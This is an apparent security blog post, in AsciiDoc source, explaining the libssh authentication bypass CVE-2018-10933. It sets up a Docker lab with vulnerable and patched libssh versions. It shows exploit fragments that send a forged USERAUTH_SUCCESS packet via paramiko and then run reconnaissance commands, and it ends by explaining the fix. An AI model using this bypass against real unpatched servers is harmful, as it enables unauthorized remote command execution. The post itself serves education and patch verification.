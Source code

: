 :page-slug: libssh-bypass-cve/
:page-date: 2018-10-18
:page-category: attacks
:page-subtitle: New vulnerability on libssh CVE-2018-10933
:page-tags: security, bug, libssh, pentesting
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330935/blog/libssh-bypass-cve/cover_ad5zp7.webp
:page-alt: Painting a red and blue wall
:page-description: Here, we will explain a vulnerability that allows a remote attacker to bypass authentication by sending a user-authenticated packet to the server.
:page-keywords: Libssh, Security, CVE, Vulnerability, Pentesting, PoC, Ethical Hacking, Pentesting
:page-author: Jonathan Armas
:page-writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/d6YyP28-Ycw

= LibSSH New Vulnerability

The new vulnerability in `LibSSH`,
tracked as link:https://www.libssh.org/security/advisories/CVE-2018-10933.txt[CVE-2018-10933],
resides on the server code
which can enable a client to bypass the authentication process
and create channels without permission.
This affects servers using versions `0.6` and above
being used in server mode.

The bug was discovered by Peter Winter-Smith of NCC Group,
it's like a `jedi` trick:

* User: `Let me in`
* Server: NO
* User: `I'm authenticated, let me in`
* Server: OK, YOU'RE IN

Why does this happen?
Because of the way `LibSSH` checks for authentication
when it receives an `SSH2_MSG_USERAUTH_SUCCESS` message
instead of the `SSH2_MSG_USERAUTH_REQUEST` message.
It acts like the user is already authenticated,
so an attacker could bypass the authentication
and execute commands on the server.

== Building the enviroment

How does LibSSH work?
It's a `C` library to implement `SSHv2` protocol
on the client and server side.
First, we need to write our server-side code.
We are going to use the sample that `LibSSH`
has (`samplesshd-cb.c`) and modify it for our purposes.

In the `ssh_channel_callbacks_struct`
we are going to put the following line
in order to have the `exec` functionality:

.exec request
[source,C]
----
.channel_exec_request_function = exec_request
----

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/channel-exec_nkvv1s.webp[channel-exec]


Next, add the `exec_request` function,
this will take our commands and execute them on the server:

[source,C]
----
static int exec_nopty(const char *command) {
            /* exec the requested command. */
            execl("/bin/sh", "sh", "-c", command, NULL);
            exit(0);

    return SSH_OK;
}

static int exec_request(ssh_session session, ssh_channel channel,
                        const char *command, void *userdata) {

    printf("Allocated exec  \n");
    (void) userdata;
    (void) session;
    (void) channel;

    return exec_nopty(command);
}
----

If you have `LibSSH` with version `0.7.4`
you can simply save it, compile it, and execute it.
If not, you can use our method.
We are going to use a `docker` container
and install both versions
(a vulnerable one and a patched one) and then,
pass our code to the server and run it.
The example files can be downloaded [button]#link:cve201810933.zip[here]#.

To build the container,
open a `terminal` in the folder of the `Dockerfile`
and run this command:

[source,bash]
----
host$ docker build -t fluidattackscve201810933 .
----

This will download all the necessary files
and compile all the sources of `LibSSH`.

Then, to open the container
simply run this command:

[source,bash]
----
host$ docker run -it -p 2222:2222 fluidattackscve201810933:latest /bin/bash
----

This is going to mirror our port `2222`
to the container port `2222` in order to be able to run our tests.
Also, it will open a `bash` terminal
on the container machine where we will run our `LibSSH` server.

== Exploiting the vulnerability

In this case, we are going to use `LibSSH v0.7.4`
and test the solution with `LibSSH v0.7.6`.
The `PoC` is on `Python` version `2`,
and you can check its source link:https://www.openwall.com/lists/oss-security/2018/10/17/5[here],
but if you downloaded our files,
it's there as `exploit.py`.

In order to run this `PoC` you will need `paramiko`.
You can install it by running:

[source,bash]
----
host$ pip install paramiko
----

In the container, run the following command
to start the vulnerable `LibSSH` server:

[source,bash]
----
container$ ./tmp/libssh-0.7.4/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
----

The verbose flag is to see what is sending and receiving our server.

Then, in your machine run the exploit with:

[source,bash]
----
host$ python exploit.py
----

If you check your container
you can see this:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/ssh-bypass_zj8e91.webp[ssh-bypass]

When the server is expecting the `SSH2_MSG_USERAUTH_REQUEST`,
we are sending an `SSH2_MSG_USERAUTH_SUCCESS`.

[source,python]
----
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
transport._send_message(m)
----

The server accepts it, and we bypassed the authentication.
Then, we can send our commands to the server with:

[source,python]
----
cmd_channel.exec_command("whoami; id; ls -la /; ip addr")
----

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/command-exec_yuqxav.webp[command-exec]

== The solution

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/dont-work_qzntdl.webp[dont-work]

The LibSSH version `0.7.6` doesn't have this vulnerability.
We can test it, too, in our container.
We just need to run:

[source,bash]
----
container$ ./tmp/libssh-0.7.6/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
----

And on our machine the exploit again:

[source,bash]
----
host$ python exploit.py
----

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/no-vulnerable_z7vihm.webp[no-vulnerable]

What's happening?
We send the `SSH2_MSG_USERAUTH_SUCCESS`.
The server receives it, but it won’t authenticate us
because they added a validation on their code.
When the packet is `SSH2_MSG_USERAUTH_SUCCESS`,
then, it checks for the authentication state.
If it is not one of the valid states, it denies the packet.

.Code on src/packet.c
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/solution_uaqs60.webp[solution]

Here you can see the difference between responses
for a vulnerable version and a non-vulnerable one.

.Vulnerable
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/vulnerable_mbwn5t.webp[vulnerable]

.Non-vulnerable
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/no-vulnerable_z7vihm.webp[no-vulnerable2]

If you have `LibSSH` in your server,
and you are using a server component,
you should install the updated, or patched, versions of `LibSSH`.
